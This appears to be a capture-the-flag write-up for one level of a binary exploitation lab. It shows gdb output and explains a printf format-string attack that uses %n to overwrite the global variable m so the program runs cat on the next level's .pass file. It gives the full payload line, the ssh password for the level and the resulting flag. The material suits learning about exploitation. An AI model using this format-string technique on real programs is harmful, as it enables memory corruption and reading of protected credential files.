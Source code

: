 ```bash
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
(gdb) info variables m
All variables matching regular expression "m":
0x08049810  m
```

Our input begins on the **12th** "argument" of `printf`, so we can specify the address where we want to store the **number of characters** on our input and use `%12$n`.

We need the *global variable* `m` (in the address `0x08049810`) to be equal to *16930116* to get access to the `.pass` file with `system("/bin/cat /home/user/level5/.pass")`. So in order to write the number *16930116* on the variable, we can use the `%n` specifier and compose an *input string* of *16930116* bytes or characters.

```bash
0x08049810 --> \x10\x98\x04\x08
\x10\x98\x04\x08 + padding of 16930112 characters with %16930112c + %12$n
```

### Solution

Connect with `ssh -p 4243 level4@localhost`
Enter the password `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`

We can execute the `printf` buffer to store the number *16930116* on the address `0x08049810` where the `m` variable is with this line. Of course, because we are running a shell through a pipe, we can keep the `stdin` open like the same trick from the last level:
```bash
$ (printf '\x10\x98\x04\x08' && echo '%16930112c%12$n' ) | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
